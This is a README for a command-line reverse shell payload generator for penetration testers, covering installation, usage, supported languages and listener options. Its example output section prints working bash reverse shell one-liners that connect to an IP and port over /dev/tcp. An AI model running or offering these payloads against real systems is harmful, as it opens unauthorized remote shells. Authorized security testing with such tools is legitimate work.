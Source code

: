 # Reverse Shell Generator Jagat

## Description

The **Reverse Shell Generator Jagat** is a versatile command-line utility designed to generate multiple types of reverse shell payloads across various programming languages and tools. It aims to assist security researchers, penetration testers, and ethical hackers by providing ready-to-use reverse shell commands that can be customized with a target IP address and port number.

This tool supports a wide range of reverse shell payloads including Bash, Python, Perl, Ruby, Netcat, Socat, PowerShell, PHP, Java, Node.js, and more. It offers easy selection of the preferred shell type and includes the ability to start a listener (using netcat or socat) to receive incoming reverse shell connections.

Key features include:

- Generation of multiple reverse shell payloads tailored to a target IP and port.
- Support for different shell types and languages with the option to specify the preferred shell.
- Validation of the given IP address to ensure it matches configured network interfaces on the host machine.
- Option to launch a listener automatically after selecting a payload, using netcat or socat.
- Color-coded output for better readability of payloads and messages.
- Inclusion of reverse shell payloads compatible with Windows and Unix-like systems.
- Easy installation via a provided shell script for Unix-like environments.

***

## Usage Instructions

### Prerequisites

- A Unix-like system (Linux, macOS) with Python 3 installed.
- `socat` or `netcat` (nc) installed for listener functionality.
- Root or sudo privileges to install the tool system-wide with the provided script (optional).

### Installation

1. Clone or download all files (https://github.com/jagat-singh-chaudhary/Reverse-Shell-Generator-Jagat.git) into a directory.
2. Run the installation script as root to copy the main program to `/usr/local/bin` for easy global access:

   ```sh
   sudo sh install.sh
   ```

   This allows running the tool simply by typing:

   ```sh
   Reverse-Shell-Generator-Jagat
   ```

### Running the Tool

The basic command format is:

```sh
Reverse-Shell-Generator-Jagat <IP_ADDRESS> <PORT> [SHELL_TYPE]
```

- `IP_ADDRESS`: The target IP where the reverse shell should connect.
- `PORT`: The target port number for the connection.
- `[SHELL_TYPE]` (optional): The shell language/type for the reverse shell payload (e.g., bash, python, perl, ruby). If omitted, `bash` is used as the default.

Example usage:

```sh
Reverse-Shell-Generator-Jagat 192.168.0.10 4444
Reverse-Shell-Generator-Jagat 10.0.0.5 5555 python3
```

### What the Tool Does

- Validates that the IP address belongs to an interface on your machine.
- Reads the `shells.txt` file to gather all available reverse shell payloads.
- Filters the payloads based on the chosen or default shell type.
- Displays the reverse shell payload commands with the IP and port replaced.
- Prompts you to select a listener type:
  - Press `l` for a netcat or socat listener, depending on the shell type.
  - Press `i` for an interactive netcat listener (if applicable).
  - Press any other key to exit without launching a listener.
- If a listener is chosen, it runs the appropriate command to catch incoming shell connections.

***

## Shell Types Supported

Some of the supported shell types include (but are not limited to):

- bash
- python
- python3
- perl
- ruby
- netcat / nc
- socat
- powershell (Windows)
- php
- java
- node.js
- telnet

Each shell type has multiple payload variants to choose from, giving you flexibility based on the target system and environment.

***

## Example Output

For example, running:

```sh
Reverse-Shell-Generator-Jagat 192.168.1.10 4444 bash
```

will print multiple bash reverse shell payloads with the IP and port injected, like:

```bash
BASH REVERSE SHELL
bash -i >& /dev/tcp/192.168.1.10/4444 0>&1

BASH REVERSE SHELL
0<&196;exec 196<>/dev/tcp/192.168.1.10/4444; sh <&196 >&196 2>&196

...
```

Then it will prompt:

```
Select your payload then:

- press 'i' to attempt spawning an interactive netcat listener on port 4444,
- press 'l' to spawn a netcat listener on port 4444,
- press any other key to exit.
```

***

## Notes

- Make sure to open the relevant port(s) on firewalls.
- Use with caution and always have proper authorization before using reverse shells on networks or systems.
- The tool currently supports Linux/Unix environments natively; Windows payloads are for reference or use on compatible systems.
- Root privileges might be required for listener ports below 1024.

